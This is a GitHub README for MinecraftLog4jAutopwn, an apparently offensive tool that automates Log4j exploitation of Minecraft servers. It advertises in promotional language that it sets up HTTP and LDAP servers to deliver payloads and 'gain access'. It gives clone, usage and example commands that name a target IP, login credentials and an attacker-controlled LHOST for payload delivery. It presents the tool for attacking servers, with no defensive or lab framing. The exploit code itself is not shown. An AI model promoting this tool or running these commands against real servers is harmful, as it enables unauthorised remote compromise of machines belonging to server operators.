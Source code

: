 ![image](https://github.com/MAWK0235/MinecraftLog4jAutoPwn/assets/90433993/8e88e5d8-9000-4e56-8c51-4bfb4bb941c6)

# MinecraftLog4jAutopwn: Automate Minecraft Server Exploitation with Log4j

Are you tired of manually exploiting Minecraft servers using Log4j vulnerabilities? Say no more! Introducing MinecraftLog4jAutopwn – your ultimate tool for automating the exploitation process, saving you time and effort. With MinecraftLog4jAutopwn, effortlessly exploit Minecraft servers with Log4j vulnerabilities and gain access efficiently!

note: you might need to change the java compiler version if the server was compiled with a different version then my example

## Key Features

- **Automated Exploitation**: MinecraftLog4jAutopwn automates the entire process of exploiting Minecraft servers with Log4j vulnerabilities, streamlining your workflow and saving valuable time.

- **HTTP and LDAP Server Setup**: Automatically sets up HTTP and LDAP servers for delivering payloads to the target Minecraft server.

- **Payload Injection**: Inject payloads into Minecraft servers seamlessly, with support Windows targets and eventually Linux targets.

- **Flexible Authentication**: Support for authenticating with Minecraft servers using usernames and passwords.

## Installation

```bash
git clone https://github.com/yourusername/MinecraftLog4jAutopwn.git

```

## Usage

```bash
python MinecraftLog4jAutopwn.py --target <target_IP> --username <minecraft_username> --LHOST <your_IP>
```

## Command Line Arguments

- `--target`: Specify the IP address of the target Minecraft server.
- `--username`: Provide the username for authenticating with the Minecraft server.
- `--LHOST`: Specify the IP address of your machine where payloads will be delivered.

## Examples

```bash
# Exploit a Minecraft server with Log4j vulnerability
python MinecraftLog4jAutopwn.py --target 192.168.1.1 --username user --password pass --LHOST 10.0.0.1
```

## Response Codes

- **Success**: Successfully exploited the Minecraft server.
- **Authentication Failed**: Failed to authenticate with the Minecraft server.
- **Connection Error**: Couldn't connect to the Minecraft server.

![MinecraftLog4jAutopwn](minecraft_log4j_autopwn_image.png)

*Note: Replace `yourusername` in the installation command with your GitHub username.*
